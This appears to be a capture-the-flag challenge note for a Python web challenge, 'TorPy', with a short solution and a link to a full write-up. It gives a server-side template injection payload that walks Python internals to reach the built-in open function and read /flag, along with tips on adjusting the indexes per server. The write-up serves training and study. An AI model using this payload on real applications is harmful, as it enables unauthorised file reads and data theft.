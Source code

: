 # TorPy  

**Description**: where is /flag ?  

**Author**: [SpyD3r](https://twitter.com/tarunkantg)  

**Short Solution**: {{ list(list(%27%27.__reduce__(42).__getitem__(0).__globals__.values()).__getitem__(0).values()).__getitem__(125)("/flag").read() }}  

but you have to check the indexes, because it changes with server.  
-> 1st index will be the same everytime.  
-> 2nd index should be the value of : __builtins__  
-> 3rd index should be value of : < built-in function open>  

**Detailed Write-up**: [https://spyclub.tech/2018/inctf2018-web-challenge-writeup/](https://spyclub.tech/2018/inctf2018-web-challenge-writeup/)  

